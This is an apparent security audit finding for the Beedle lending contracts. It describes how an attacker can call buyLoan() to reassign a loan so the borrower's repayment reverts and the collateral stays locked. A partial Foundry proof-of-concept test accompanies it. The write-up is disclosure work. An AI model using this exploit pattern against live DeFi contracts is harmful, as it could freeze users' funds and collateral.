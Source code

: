 The borrower repayment can be blocked by a malicious actor who doesn't have a created pool causing the pool that acquired the debt to be unable to be paid and the borrower to be unable to get his collateral.

## Vulnerability Details

The [buyLoan()](https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L465) function helps "buy" a loan and transfer it to another pool. So the first pool will be paid plus interests and the new pool will acquire the debt.

The problem is that a malicious actor, who doesn't have any created pool, can call the `buyLoan()` function and transfer the debt to another whatever pool. That will cause that the loan repayment will be reverted by an arithmetic error.

I created a test where the malicious actor make the borrower repayment to be reverted by an arithmetic error. Test steps:

1. Lender1 creates the pool with initial 1000 token balance. Borrower borrows 100 token debt.
2. Lender2 creates his pool.
3. Lender1 kicks off the auction.
4. The malicious actor (address(1337)) call the `buyLoan()` function using Lender2's pool.
5. The Lender1 pool has the loaned amount + interests.
6. Lender2 pool has the debt. 1000 initial pool balance - 100 debt tokens - borrow interests
7. The loan lender is assigned to the attacker non-existent pool which means that
   the repay() function will be reverted by arithmeticError.

```solidity
// File: test/Lender.t.sol:LenderTest
// $ forge test --match-test "test_borrower_repayment_can_be_blocked" -vvv
//
    function test_borrower_repayment_can_be_blocked() public {
        // The borrower repayment can be blocked by a malicious actor who doesn't have a created pool
        // causing the pool that acquired the debt to be unable to be paid.
        // 1. Lender1 creates the pool with initial 1000 token balance. Borrower borrows 100 token debt.
        // 2. Lender2 creates his pool.
        // 3. Lender1 kicks off the auction.
        // 4. The malicious actor (address(1337)) call the buyLoan() function using Lender2's pool.
        // 5. The Lender1 pool has the loaned amount + interests.
        // 6. Lender2 pool has the debt. 1000 initial pool balance - 100 debt tokens - borrow interests
        // 7. The loan lender is assigned to the attacker non-existent pool which means that
        //    the repay() function will be reverted by arithmeticError.
        address attacker = address(1337);
        loanToken.mint(address(attacker), 100000*10**18);
        collateralToken.mint(address(attacker), 100000*10**18);
        //
        // 1. Lender1 creates the pool with initial 1000 token balance. Borrower borrows 100 token debt.
        //
        test_borrow();
        bytes32 poolIdLender1 = lender.getPoolId(lender1, address(loanToken), address(collateralToken));
        (,,,,uint256 poolBalance,,,,) = lender.pools(poolIdLender1);
        // assert loan debt and pool balance
        assertEq(lender.getLoanDebt(0), 100*10**18);
        assertEq(poolBalance, 900 * 10**18);
        //
        // 2. Lender2 creates his pool.
        //
        // Lender2 creates his pool
        vm.startPrank(lender2);
        Pool memory lender2Pool = Pool({
            lender: lender2,
```